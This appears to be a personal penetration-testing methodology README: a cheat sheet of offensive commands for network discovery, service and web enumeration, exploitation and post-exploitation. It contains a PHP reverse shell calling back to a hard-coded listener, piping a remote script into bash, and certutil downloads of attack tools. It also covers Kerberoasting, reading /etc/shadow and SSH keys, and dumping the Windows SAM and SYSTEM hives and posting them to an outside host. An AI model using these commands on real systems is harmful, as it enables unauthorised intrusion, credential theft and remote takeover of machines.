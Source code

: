 
<h1>My Methodology</h1>


<details>
    <summary><H4>Host Discovery (External)</H4></summary>
    
    fping -ag 10.10.110.0/24 2>/dev/null | tee external-ips ; \
    for ip in $(cat external-ips); do nmap=$(nmap -p- --max-retries 1 --min-rate 10000 --open "$ip" | grep -vE 'Warning:|filtered|latency|Starting'); echo "$nmap"; ports=$(echo "$nmap" | sed -n 's|/.*||p' | paste -sd ','); echo "nmap -sC -sV -Pn -p$ports $ip"; echo; done
</details>

<details>
    <summary><H4>Host Discovery (Internal)</H4></summary>
    
    fping -ag 172.16.1.0/24 2>/dev/null | tee internal-ips ; \
    for ip in $(cat internal-ips); do nmap=$(nmap -p- --max-retries 1 --min-rate 10000 --open "$ip" | grep -vE 'Warning:|filtered|latency|Starting'); echo "$nmap"; ports=$(echo "$nmap" | sed -n 's|/.*||p' | paste -sd ','); echo "nmap -sC -sV -Pn -p$ports $ip"; echo; done
</details>

<details>
    <summary><H4>Service Enumeration</H4></summary>
    
    nmap -Pn -sC -sV 172.16.1.10 -p22,80,139,445
    ldap=$(nmap --script "ldap* and not brute" -p 389 172.16.1.10); echo "$ldap"
    nxc ftp 172.16.1.10 --port 21 -u 'anonymous' -p 'anonymous' --ls
    nxc smb 172.16.1.10 --port 445 -u usernames -p passwords --rid-brute 10000
    nxc smb 172.16.1.10 --port 445 -u usernames -p passwords --shares
    mysql -h 172.16.1.10 -u root@localhost -e 'show databases;'
    impacket-GetNPUsers -usersfile usernames domain/ -dc-ip 172.16.1.10
    impacket-GetUserSPNs -request-user "$objuser" -dc-ip 172.16.1.10 domain/username:password
    impacket-GetUserSPNs -no-preauth "$user" -usersfile usernames -dc-host 172.16.1.10 domain/
    impacket-GetUserSPNs -request -dc-ip 172.16.1.10 domain/username:password
    
    for x in $(showmount -e 172.16.1.10 | awk '{print $1}' | grep -v 'Export')
        do mkdir -p "/dev/shm"/mnt"$x"
        sudo mount -t nfs 172.16.1.10:"$x" "/dev/shm"/mnt"$x" -o nolock
        tree -puga "/dev/shm"/mnt"$x"
    done
</details>

<details>
    <summary><H4>Web Enumeration</H4></summary>

   <h5>Technology Discovery</h5>
   
    whatweb http://10.10.110.100

   <h5>WAF Discovery</h5>
   
    wafw00f http://10.10.110.100
    
   <h5>WordPress Discovery</h5>
   
    wpscan --url http://10.10.110.100/wordpress --enumerate
    
   <h5>Directory Discovery</h5>

    ffuf -u 'http://10.10.110.100/FUZZ' -t 400 -rate 10000 -e .php -v -recursion -mc 200,301 \
    -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt \
    2>/dev/null | grep -oP '(http.*)(?<!/)$'
    
<h5>Directory Traversal</h5>

    ffuf -u 'http://10.10.110.100/nav.php?page=FUZZ' -t 400 -rate 10000 -v -mc 200 \
    -w /usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt \
    2>/dev/null | grep -oP '(http.*)(?<!/)$'
    
   <h5>XSS + SSTI</h5>
   
    <img src=x>'"${{7*7}}
    
   <h5>Subdomain Discovery</h5>
   
    gobuster vhost --append-domain -u example.com -k -r -t200 -q \
    -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt \
    | grep -oP '(?<=Found: )[^ ]+'
</details>

<details>
    <summary><H4>Exploitation</H4></summary>
    
<h5>Reverse Shells</h5>

    <?php
        $lhost = "10.10.16.3";
        $lport = 4444;
        
        exec("bash -c 'bash -i >& /dev/tcp/$lhost/$lport 0>&1'");
        $sock = fsockopen($lhost, $lport);
        if ($sock) {
            exec("sh <&3 >&3 2>&3");
            }
    ?>
    
  <h5>Upgrade TTY</h5>
  
    python3 -c 'import pty; pty.spawn("/bin/bash")';
    CTRL-Z
    stty size;stty raw -echo;fg
    export SHELL=bash;
    export TERM=xterm-256color;
    stty rows <num> columns <num>
    reset
</details>

<details>
    <summary><H4>Post Exploitation</H4></summary>
    
   <h5>Linux</h5>
   
    ssh user@xxxxxxxxx -i id_rsa -L 33060:localhost:33060
    netstat -tuln
    ls -la /opt
    sudo -l
    find / -perm /4000 2>/dev/null
    grep -r -E 'conf' /var/www
    cat ~/.ssh/id_rsa
    cat /etc/shadow
    curl xxxxxxxxxx:8088/linpeas.sh | bash
    GTFO bins
    
   <h5>Windows</h5>
   
    evil-winrm -i xxxxxxxxxx -u 'username' -p 'password'
    evil-winrm -i xxxxxxxxxx -u 'username' -H 'hash'
    cd C:\users
    tree /f
    powershell -c "certutil -urlcache -f http://xxxxxxxxxx:8088/winpeas.exe C:\programdata\winpeas.exe"
    powershell -c "certutil -urlcache -f http://xxxxxxxxxx:8088/nc.exe C:\programdata\nc.exe"
    
    click.url
    [InternetShortcut]
    URL=C:\programdata\shell.bat
    
    meterpreter > use priv
    meterpreter > getsystem
    
    nxc winrm xxxxxxxxxx -u 'username' -p 'password' -x \
    '
    powershell -c rm *.SAV
    powershell -c reg save HKLM\SYSTEM SYSTEM.SAV
    powershell -c reg save HKLM\SAM SAM.SAV
    powershell -c compress-archive *.SAV SAM.zip
    powershell -c dir
    iwr http://xxxxxxxxxx:xxxx -Method POST -InFile SAM.zip
    '; unzip -o SAM.zip; \
    impacket-secretsdump LOCAL -sam SAM.SAV -system SYSTEM.SAV
    
    powershell -c "certutil -urlcache -f http://xxxxxxxxxx:8088/powerview.ps1 C:\programdata\powerview.ps1"
    powershell Import-Module C:\programdata\powerview.ps1
    Get-NetDomain
    Get-LocalUser
    Set-DomainObject -Identity USERNAME -SET @{serviceprincipalname='SET/SET'}; Get-DomainSPNTicket -spn SET/SET
    bloodhound-python -c all -u 'username' -p 'password' -d "$domain" -dc "$dc" -ns "$target"
    bloodhound-python -c default -u 'username' -p 'password' -d "$domain" -dc "$dc" -ns "$target"
</details>
